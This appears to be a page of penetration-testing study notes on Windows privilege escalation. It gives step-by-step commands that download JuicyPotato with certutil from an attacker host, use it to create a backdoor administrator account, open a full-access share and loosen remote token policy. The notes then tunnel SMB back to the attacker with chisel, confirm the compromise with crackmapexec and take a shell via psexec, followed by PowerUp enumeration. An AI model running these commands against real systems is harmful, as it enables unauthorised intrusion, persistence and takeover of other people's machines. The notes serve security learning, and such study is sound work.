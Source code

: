 # Windows Machine {-}

## Active Directory {-}

### Golden Ticket Attack {-}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the **krbtgt** user that is the one who 
can create those tickets

## Check possible privilege escalation vulnerabilities {-}

1. check os:

    ```bash
    systeminfo
    ```

1. copy the result and pase in a file in local

1. download windows-exploit-suggester.py

1. generate xlsx data base
    
    ```bash
    python3 windows-exploit-suggester.py --update
    ```

1. check systeminfo documentation

    ```
    python3 windows-exploit-suggester.py -i systeminfo.txt -d 2021-07-14-mssb.xlsx
    ```

1. github.SecWiki/windows-kernel-exploits

1. python -m http.server

1. certutil.exe -f

## Check command history {-}

```bash
dir/s *history.txt
```

## Check local open ports {-}

```bash
netstat -nat
```

Usefull to know if we have to do port forwarding.

## JuicyPotato {-}

Juicy Potato is a local privilege escalation tool that exploit Windows service accounts impersonation privileges.

1. Check user privilege

    ```bash
    whoami
    whoami /priv
    ```

    ```r
        knitr::include_graphics("images/juicy-impersonate-priv.png")
    ```

    Here we can see that `SeImpersonatePrivilege` is enabled. That means that we can use JuicyPotatoe to run commands

1. Check users in the system

    ```bash
    net user
    ```

1. Create User with Admin privilege

    - download JuicyPotato.exe and copy in the victim machine
    - create folder in `C:\Windows\Temp`
    - Transfer JuicyPotato to Windows Machine
    
        ```bash
        certutil.exe -f -urlcache -split http://10.10.10.10/JuicyPotato.exe JP.exe
        ```
    - Create user looping

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user looping looping123! /add"
        ```

    - Add user to Administrators group

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators looping /add"
        net user looping
        ```

    - Create Share folder where user with Administrators rules have Full privilege

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
        ```
    
    - Update local account policy to gain access to the system

        ```bash
        JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System 
                                                                    /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
        ```

    - Check with chisel and crackmapexec if user looping is now Pownd 

        - download chisel on attacker machine and on victim machine
        - run chisel on attacker machine

            ```bash
            ./chisel server --reverse --port 1234
            ```

        - run chisel on windows victim machine

            ```bash
            chisel.exe client 10.10.10.10:1234 R:445:127.0.0.1:445
            ```
        - check if revert port forwarding works

            ```bash
            crackmapexec smb 127.0.0.1
            ```

        - check if looping is powned
        
            ```bash
            crackmapexec smp -u 'looping' -p 'looping123!' --sam

            #OUTPUT
            SMB 127.0.0.1   445 MACHINENAME [*] machinename\looping:looping123! (Pwn3d!)
            ```
    
    - Connect to machine with psexec.python

        ```bash
        locate psexex.py
        psexec.py WORKGROUP/looping@127.0.0.1 cmd.exe
        ```
    

## System enumeration with PowerUp for Privesc {-}

**PowerUp** is a script from the PowerSploit Library. PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration 
testers during all phases of an assessment.

[PowerSploit github](https://github.com/PowerShellMafia/PowerSploit)

1. Open the script

    ```bash
    cd PowerSploit/Privesc
    vi PowerUp.ps1
    ```

1. Set an automatic execution of the desired Alias

    - Write `Invoke-AllChecks` the end of the file

1. Send to the victim machine

1. Check the result

    ```r
        knitr::include_graphics("images/sys-enum-powerup.png")
    ```


In this example we can see that the UsoSvc is a Modifiable Service with an Invoke-ServiceAbuse function.

Feel free now to check for an exploit on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings).
Payloads for Windows and Active Directory are listed in the [Methodology and Resource Folder](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
where you can find a **Windows - Privilege Escalation.md**.

Search for UsoSvc to find what to do.



